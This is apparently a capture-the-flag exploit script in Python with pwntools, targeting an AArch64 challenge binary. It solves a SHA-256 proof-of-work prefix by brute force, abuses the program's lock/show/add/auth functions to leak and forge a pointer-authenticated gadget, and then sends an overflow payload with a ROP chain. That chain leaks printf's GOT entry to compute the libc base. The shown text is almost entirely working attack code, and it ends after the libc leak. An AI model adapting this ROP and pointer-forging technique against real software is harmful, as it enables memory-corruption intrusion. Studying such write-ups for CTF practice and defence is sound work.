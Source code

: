 ```python
puts_plt = 0x4006c0
printf_got = 0x411fe0
name_addr = 0x412030
gadget1 = 0x400fd8
gadget2 = 0x400ff8
main = 0x400e84

def bruteforce(pt, ct):
    hashtype = sha256
    pt = pt.decode()
    digest = ct.decode()
    prefix = mbruteforce(
        lambda x: hashtype((x+pt).encode()).hexdigest() == digest,
        string.ascii_letters+string.digits,
        length = 4,
        method = "fixed"
    )
    return prefix

def poc(io):
    pt, ct = io.recvuntil('xxxx:\n')[:-15].split(' == ')
    io.sendline(bruteforce(pt[12:-1],ct))

def pwn(io):
    name = p64(gadget2)
    name += p64(0)
    name += p64(0x10A9FC70042)
    name += p64(0)
    io.sendafter("input your name: ",name)
    lock(-2)
    show()
    io.recvuntil("name: ")
    leak2 = u64(io.recv(8))
    new_gadget = conv(gadget2, leak2)
    add(puts_plt)
    lock(-1)
    auth(-1)
    payload = "a"*0x28
    payload += flat([
        new_gadget, #pc
        0, #x29
        gadget1, #x30
        0, #x19
        1, #x20
        name_addr + 0x20, #x21
        printf_got, #x22
        printf_got, #x23
        printf_got, #x24
        main,
        main,
        main,
        main,
        main,
        main,
        main,
        main,
        main,
        main,
        main
    ])
    io.send(payload)
    libc.address = u64((io.recv(3)+"\x00\x40").ljust(8,"\x00")) - libc.symbols['printf']
    log.info("Libc base -> "+hex(libc.address))
```